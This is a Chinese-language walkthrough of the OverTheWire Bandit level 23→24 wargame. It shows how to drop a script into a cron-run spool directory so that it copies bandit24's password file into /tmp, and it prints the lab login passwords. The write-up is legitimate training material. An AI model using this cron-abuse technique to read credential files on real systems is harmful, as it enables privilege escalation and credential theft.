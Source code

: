 # Bandit Level 23 → Level 24 攻略 📜

## 关卡目标 🎯

本关卡的目标是分析一个以bandit24用户身份运行的cron任务，编写一个脚本来获取下一关的密码，并将该脚本放在`/var/spool/bandit24/`目录中执行。

## 所需知识 📚

### Cron定时任务 ⏱️

与前两关类似，我们需要了解cron定时任务的基本概念和配置。

### Shell脚本编写 📝

我们需要编写一个shell脚本来获取密码。

### 文件权限和目录权限 🔒

我们需要确保我们创建的脚本具有正确的权限，以便bandit24用户可以执行它。

### 临时目录和文件 📂

我们需要使用临时目录来存储我们的脚本和输出文件。

## 详细解题步骤 📝

### 1. 登录游戏服务器 🔐

使用上一关获得的密码登录服务器：

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

密码：`jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

### 2. 查看cron任务 👀

首先，我们需要查看与bandit24相关的cron任务：

```bash
cat /etc/cron.d/cronjob_bandit24
```

输出结果应该类似于：

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

这表明系统会在每次重启时以及每分钟以bandit24用户的身份执行`/usr/bin/cronjob_bandit24.sh`脚本。

### 3. 查看cron脚本 📜

现在我们需要查看`/usr/bin/cronjob_bandit24.sh`脚本的内容：

```bash
cat /usr/bin/cronjob_bandit24.sh
```

输出结果应该类似于：

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

这个脚本做了以下几件事：
1. 使用`whoami`命令获取当前用户名，并将结果存储在`myname`变量中
2. 切换到`/var/spool/$myname`目录（即`/var/spool/bandit24`）
3. 遍历该目录中的所有文件
4. 对于每个文件，检查其所有者是否为bandit23
5. 如果所有者是bandit23，则执行该文件（最多运行60秒）
6. 执行后删除该文件

这意味着我们可以在`/var/spool/bandit24`目录中创建一个脚本，该脚本将以bandit24用户的身份执行，然后我们可以使用该脚本读取bandit24的密码。

### 4. 创建临时目录 📂

首先，我们需要创建一个临时目录来存储我们的脚本和输出文件：

```bash
mkdir -p /tmp/bandit23_to_24
chmod 777 /tmp/bandit23_to_24
```

### 5. 编写脚本 📝

现在我们需要编写一个脚本，该脚本将读取bandit24的密码并将其写入我们的临时目录：

```bash
nano /tmp/bandit23_to_24/get_password.sh
```

在编辑器中输入以下内容：

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit23_to_24/password.txt
chmod 666 /tmp/bandit23_to_24/password.txt
```

保存并退出编辑器（在nano中，按Ctrl+O保存，然后按Ctrl+X退出）。

### 6. 设置脚本权限 🔒

我们需要确保脚本具有执行权限，并且所有者是bandit23：

```bash
chmod 777 /tmp/bandit23_to_24/get_password.sh
```

### 7. 复制脚本到cron目录 📋

现在我们需要将脚本复制到`/var/spool/bandit24`目录，以便它被cron任务执行：

```bash
cp /tmp/bandit23_to_24/get_password.sh /var/spool/bandit24/
```

### 8. 等待脚本执行 ⏱️

cron任务每分钟执行一次，所以我们需要等待一段时间（最多一分钟）让脚本执行：

```bash
sleep 60
```

### 9. 查看密码文件 🔑

现在我们可以查看脚本生成的密码文件：

```bash
cat /tmp/bandit23_to_24/password.txt
```

输出结果应该显示bandit24的密码：

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## 命令解释 🔍

- `mkdir -p /tmp/bandit23_to_24`：
  - `mkdir`：创建目录
  - `-p`：如果需要，创建父目录
  - `/tmp/bandit23_to_24`：要创建的目录
- `chmod 777 /tmp/bandit23_to_24`：
  - `chmod`：更改文件权限
  - `777`：设置权限为所有用户可读、可写、可执行
  - `/tmp/bandit23_to_24`：目标目录
- `nano /tmp/bandit23_to_24/get_password.sh`：
  - `nano`：文本编辑器
  - `/tmp/bandit23_to_24/get_password.sh`：要编辑的文件
- `cp /tmp/bandit23_to_24/get_password.sh /var/spool/bandit24/`：
  - `cp`：复制文件
  - `/tmp/bandit23_to_24/get_password.sh`：源文件
  - `/var/spool/bandit24/`：目标目录

## 学习要点总结 📌

1. **Shell脚本编写** - 学习了如何编写简单的shell脚本
2. **文件权限设置** - 了解了如何设置文件和目录的权限
3. **Cron任务利用** - 学习了如何利用cron任务执行特权操作
4. **临时文件和目录** - 了解了如何使用临时文件和目录进行数据传递

## 提示 💡

- 在编写脚本时，确保脚本具有正确的权限，以便目标用户可以执行它
- 使用临时目录时，确保设置适当的权限，以便可以读取和写入文件
- 在实际系统中，应该避免设置过于宽松的权限（如777），这可能导致安全风险
- cron任务是自动化系统管理的强大工具，但也可能被滥用，因此应该谨慎配置

## 下一步 ⏭️

使用获得的密码登录到Level 24：

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

密码：`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

## 相关资源 🔗

- [Bash脚本编程指南](https://www.gnu.org/software/bash/manual/bash.html)
- [Linux文件权限详解](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)
- [Cron定时任务安全最佳实践](https://www.digitalocean.com/community/tutorials/how-to-use-cron-to-automate-tasks-on-a-vps)
